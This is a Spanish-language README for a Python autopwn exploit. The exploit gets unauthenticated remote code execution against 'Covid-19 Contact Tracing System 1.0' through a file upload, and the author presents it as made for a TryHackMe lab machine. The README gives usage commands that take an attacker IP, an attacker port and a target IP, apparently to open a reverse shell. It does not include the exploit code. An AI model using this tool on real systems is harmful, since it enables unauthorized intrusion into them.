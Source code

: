 # Covid19 Contact Tracing System 1.0 (Unauthenticated RCE)
Este es un exploit que use y mejoré para la máquina Lockdown de TryHackMe, te automatiza practicamente toda la intrusión mediante la subida de un fichero a la máquina. Para esto, obviamente la aplicación debe trabajar con el Contact Tracer, "Covid-19 Contact Tracing System 1.0".

## Motivos de la creación
* Practicar Python3 
* Hacer un script autopwn

## Instalación y uso
```bash 
$ git clone https://github.com/sha-16/Covid19-Contact-Tracing-System-1.0-RCE.git
$ cd Covid19-Contact-Tracing-System-1.0/
$ chmod +x covid19_contacttracer.py
$ python3 covid19_contacttracer.py <attacker-ip> <attacker-port> <target-ip>
```
## Créditos
**Exploit v1**: https://www.exploit-db.com/exploits/49604

**Nota:** si tienes propuestas para mejorar este script o cambiar cosas, hazmelas saber por favor... me ayudarías mucho ❤.
